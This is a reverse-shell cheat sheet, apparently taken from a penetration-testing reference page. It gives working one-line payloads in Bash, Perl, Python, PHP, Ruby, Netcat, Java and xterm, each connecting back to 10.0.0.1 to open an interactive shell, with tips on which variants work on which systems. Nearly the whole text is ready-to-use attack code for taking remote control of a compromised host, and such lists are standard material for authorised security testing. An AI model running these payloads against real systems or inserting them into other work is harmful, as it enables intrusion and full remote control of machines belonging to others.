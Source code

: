 ###Bash
Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

###PERL
Here’s a shorter, feature-free version of the perl-reverse-shell:

`perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

There’s also an alternative PERL revere shell here.

###Python
This was tested under Linux / Python 2.7:

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

###PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

If you want a .php file to upload, see the more featureful and robust php-reverse-shell.

###Ruby

`ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

###Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

`nc -e /bin/sh 10.0.0.1 1234`

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

###Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
[Untested submission from anonymous reader]

###xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

`xterm -display 10.0.0.1:1`

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1
You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip
